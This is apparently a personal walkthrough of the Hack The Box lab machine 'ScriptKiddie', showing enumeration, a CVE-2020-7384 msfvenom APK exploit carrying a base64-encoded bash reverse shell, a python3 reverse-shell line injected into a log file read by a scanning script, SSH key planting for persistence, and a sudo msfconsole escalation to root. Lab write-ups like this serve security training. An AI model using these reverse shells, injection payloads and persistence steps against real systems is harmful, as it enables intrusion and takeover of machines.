

---
tags:
  - hack
  - linux
---
# HTB: [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie)

> [!tip]- Summary with Spoilers
> - This machine exposed a Metasploit installation, which I used to exploit a Git-related vulnerability for initial access as `kid`.
> - I moved laterally to `pwn` by injecting malicious input into a writable log file processed by an `incrond` job.
> - Privilege escalation was achieved by leveraging a misconfigured `msfconsole` binary, granting a `root` shell.

## Enumerate

```console
$ nmap -n -sCV -T4 -p1-65535 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 17:35 CDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 724.14 seconds
```

Port 5000 is running a simple web service on [Werzkzeug](https://werkzeug.palletsprojects.com/en/3.0.x/), a Python `httpd` framework.

There are no apparent exploits available for the services themselves, but the page offers an opportunity:


## Exploit

The `payloads` section offers an opportunity to pass a malicious `msfvenom` template, per [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). MSF now offers [a module](https://www.exploit-db.com/exploits/49491) to exploit this vulnerability, but I'll use [this script](https://github.com/nikhil1232/CVE-2020-7384/blob/main/CVE-2020-7384.sh) to generate the payload:

```console
$ sh cve-2020-7384.sh 
-e 
\x1B[31mCVE-2020-7384
-e 
Enter the LHOST: 
10.10.16.5
-e 
Enter the LPORT: 
443
-e 
Select the payload type
1. nc
2. bash
3. python
4. python3

select: 2
-e 
Enter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): 

  adding: emptyfile (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN="'|echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNS80NDMgMD4mMSIK | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
-e 
New APK file Generated
Location: "[...]/exploit.apk"
[...]

$ ls -l exploit.apk 
-rw-r----- 1 e e 2075 Oct 19 13:49 exploit.apk
```

I set up a `nc` listener and the feed `exploit.apk` to the web service:



```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 39690
bash: cannot set terminal process group (897): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cat /home/kid/user.txt
cat /home/kid/user.txt
787100[...]
```

I add my public key to `authorized_keys` to get a proper interactive shell:

```console
kid@scriptkiddie:~/html$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> ~/.ssh/authorized_keys
```

```console
$ ssh kid@$t
[...]
Last login: Wed Feb  3 12:07:35 2021 from 10.10.14.4
kid@scriptkiddie:~$ 
```

## Escalate

From here I see two login users, `kid` and `pwn`. In the latter's home directory there's this script:

```console
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Given that the user `kid` has write access to the input for this script, I'm able to move laterally to the `pwn` user. The script appears to be triggered via [incrond](https://linux.die.net/man/8/incrond). Here's the payload:

```console
kid@scriptkiddie:~$ cat x
1 1 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
kid@scriptkiddie:~$ cat x > logs/hackers
```

On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 58740
$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
sh: 2: cannot create .ssh/authorized_keys: Permission denied
$ mv .ssh/authorized_keys ./
mv .ssh/authorized_keys ./
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
echo 'ssh-ed25519
```

The file `.ssh/authorized_keys` was immutable (I'm not sure the mechanism, since `lsattr` didn't have the `i` flag) but I was able to move it out of the way and create a new `authorized_keys` file. Now with a proper shell I check `sudo` privileges:

```console
$ ssh pwn@$t
[...]
Last login: Thu Jan 28 17:52:15 2021 from 10.10.14.7
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ 
```

`msfconsole` is trivially exploitable for a `root` shell:

```console
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x /usr/bin/bash
[*] exec: /usr/bin/bash

root@scriptkiddie:/home/pwn# cat /root/root.txt
cb08fe[...]
```
